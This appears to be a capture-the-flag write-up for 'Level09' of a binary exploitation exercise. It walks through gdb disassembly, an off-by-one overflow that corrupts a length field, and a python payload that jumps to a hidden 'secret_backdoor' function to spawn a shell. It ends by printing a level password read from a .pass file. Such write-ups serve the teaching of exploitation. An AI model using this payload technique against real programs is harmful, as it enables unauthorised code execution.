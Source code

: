 # Level09


These buffers will be fill with 'set_username' and 'set_msg'.

In the function 'set_username', a local buffer of 0x80(128) bytes is used to store the username. Then, 0x29(41) bytes of this local buffer are copied to the buffer of username in the struct. Since the buffer of username in the struct is 0x28(40) bytes long, 1 byte is copied after and will replace the value of the message length.

In the function 'set_msg', a local buffer of 0x400 bytes is used to store the message of the user and 'strncpy' will use the value of the message length in the struct to fill the buffer of message inside the struct. This means that we can use a buffer overflow to rewrite the old eip of 'handle_msg' !

To rewrite old eip, we need to write a username of 0x28(40) characters, the length to overflow and rewrite old eip (sizeof(struct s_mail) + padding + old ebp + old eip -> 0xd0), use a newline for the end of the buffer, fill the memory until the new address of old eip.

For the new address, there's a hidden function which is called 'secret_backdoor'. It read a command on stdin and use it for the 'system' call. For the buffer overflow, we will use the address of this function (0x000055555555488c) to exploit this binary.



# First we can see a hidden function `secret_backdoor`
gdb> disass secret_backdoor
[...]
   0x0000555555554894 <+8>:	mov    rax,QWORD PTR [rip+0x20171d] # 0x555555755fb8  ; stdin
   0x000055555555489b <+15>:	mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:	mov    rdx,rax
   0x00005555555548a1 <+21>:	lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:	mov    esi,0x80
   0x00005555555548aa <+30>:	mov    rdi,rax
   0x00005555555548ad <+33>:	call   0x555555554770 <fgets@plt>                     ; fgets(shellcode, 0x80, stdin)
   0x00005555555548b2 <+38>:	lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:	mov    rdi,rax
   0x00005555555548b9 <+45>:	call   0x555555554740 <system@plt>                    ; system(shellcode)
[...]
# It executes whatever we write in the stdin

gdb> disass handle_msg
[...]
   0x00005555555548cb <+11>:	lea    rax,[rbp-0xc0]                           ; struct msg 192 bytes
   0x00005555555548d2 <+18>:	add    rax,0x8c                                 ; 140 bytes
   0x00005555555548d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00005555555548df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00005555555548e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00005555555548ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00005555555548f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0                 ; 40 bytes
   0x00005555555548ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c                 ; 8 bytes
[...]
# Here we can see a struct which may look like this
typedef struct msg
{
  char    content[140];
  char    username[40];
  size_t  size;
} msg_t;

gdb> disass set_username
[...]
   0x0000555555554a38 <+107>:	call   0x555555554770 <fgets@plt>                     ; fgets(username, 128, stdin)
   0x0000555555554a3d <+112>:	mov    DWORD PTR [rbp-0x4],0x0                        ; idx = 0
   0x0000555555554a44 <+119>:	jmp    0x555555554a6a <set_username+157>
   0x0000555555554a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000555555554a49 <+124>:	cdqe
   0x0000555555554a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
   0x0000555555554a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
   0x0000555555554a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000555555554a5d <+144>:	cdqe
   0x0000555555554a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
   0x0000555555554a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1                        ; idx += 1
   0x0000555555554a6a <+157>:	cmp    DWORD PTR [rbp-0x4],0x28                       ; if (idx > 40)
   0x0000555555554a6e <+161>:	jg     0x555555554a81 <set_username+180>
   0x0000555555554a70 <+163>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000555555554a73 <+166>:	cdqe
   0x0000555555554a75 <+168>:	movzx  eax,BYTE PTR [rbp+rax*1-0x90]
   0x0000555555554a7d <+176>:	test   al,al
   0x0000555555554a7f <+178>:	jne    0x555555554a46 <set_username+121>
[...]
# In the `set_username` function we can see that 41 bytes can be written at msg->username which is only 40 bytes long
# We can overflow this to overwrite the next variable which is the size for the strncpy in the `set_msg` function

gdb> disass set_msg
[...]
   0x0000555555554981 <+79>:	mov    rax,QWORD PTR [rip+0x201630] # 0x555555755fb8  ; stdin
   0x0000555555554988 <+86>:	mov    rax,QWORD PTR [rax]
   0x000055555555498b <+89>:	mov    rdx,rax
   0x000055555555498e <+92>:	lea    rax,[rbp-0x400]                                ; local_msg
   0x0000555555554995 <+99>:	mov    esi,0x400
   0x000055555555499a <+104>:	mov    rdi,rax
   0x000055555555499d <+107>:	call   0x555555554770 <fgets@plt>                     ; fgets(local_msg, 0x400, stdin)
   0x00005555555549a2 <+112>:	mov    rax,QWORD PTR [rbp-0x408]                      ; msg
   0x00005555555549a9 <+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x00005555555549af <+125>:	movsxd rdx,eax
   0x00005555555549b2 <+128>:	lea    rcx,[rbp-0x400]                                ; local_msg
   0x00005555555549b9 <+135>:	mov    rax,QWORD PTR [rbp-0x408]                      ; msg
   0x00005555555549c0 <+142>:	mov    rsi,rcx
   0x00005555555549c3 <+145>:	mov    rdi,rax
   0x00005555555549c6 <+148>:	call   0x555555554720 <strncpy@plt>                   ; strcpy(msg->content, local_msg, msg->size)
[...]

# Lets try a pattern search to see if we can overwrite the next instruction to be executed
gdb> pattern create 256
$> python -c "print 'A' * 40 + '\xff' + '\n' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'" > /tmp/pl
# Here we write 40 'A' byte then we overwrite the size in the struct with '\xff' == 255 > 140 (the size of the content field) and then we append a '\n' for the `fgets`
gdb> r < /tmp/pl
SIGSEGV
gdb> pattern search
[...]
Registers contain pattern buffer:
RDI+52 found at offset: 69
RBP+0 found at offset: 201
[...]
# Nice we found offset 201 (- 1) to overwrtie the next instruction to be executed

# We just need to find the address of the backdoor function
gdb> x secret_backdoor
0x55555555488c <secret_backdoor>

0x55555555488c <=> \x8c\x48\x55\x55\x55\x55\x00\x00

# Then we prepare our payload
$> (python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200  + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh'" ; cat) | ./level09
$ cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
